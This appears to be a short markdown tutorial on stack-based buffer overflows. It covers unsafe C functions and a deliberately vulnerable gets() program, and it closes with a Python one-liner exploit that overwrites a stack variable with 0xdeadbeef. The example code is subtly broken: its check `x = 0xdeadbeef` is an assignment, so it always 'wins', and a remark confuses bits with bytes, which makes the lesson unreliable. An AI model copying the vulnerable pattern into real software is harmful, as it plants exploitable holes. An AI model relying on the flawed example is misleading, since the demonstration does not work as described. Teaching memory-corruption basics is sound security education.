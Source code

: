 
# Stack Based Buffer Overflow

## Memory Corruption
Modifying memory of a binary in a way that was not intended.

### Buffer Overflow
A buffer overflow occurs when data is written beyond the allocated memory space, thus corrupting adjacent memory. 
#### Common Causes:
- Unsafe functions: These functions do not perform any bounds checking when writing to a fixed-size buffer. These functions include:
	- strcpy
	- gets
	- sprintf

#### Impact:
- Arbitrary Code Execution (if return address is overwritten)
- Denial of service.
- Data corruption

### Example

```c
int main() {
	int x;
	char buffer[32];
	gets(buffer);
	if (x = 0xdeadbeef) {
		puts("You win.");
	} else {
		puts("You lose.");
	}	
	return 0;
}
```

Stack before gets function

![Stack Before Overflow](../../../assets/images/basic-bof.jpg)


if we enter more than 32 bytes the x variable will be overwritten. So we have to enter 32 bytes that will fill the buffer and then another 4 `0xdeadbeef` to overwrite x


Stack after the gets function

![](../../../assets/images/basic-bof1.jpg)

`0xdeadbeef must be in least significant bit`

> exploit :  
```sh
python -c 'print("A"*32+"\xef\xbe\xad\xde")' | ./vuln
```


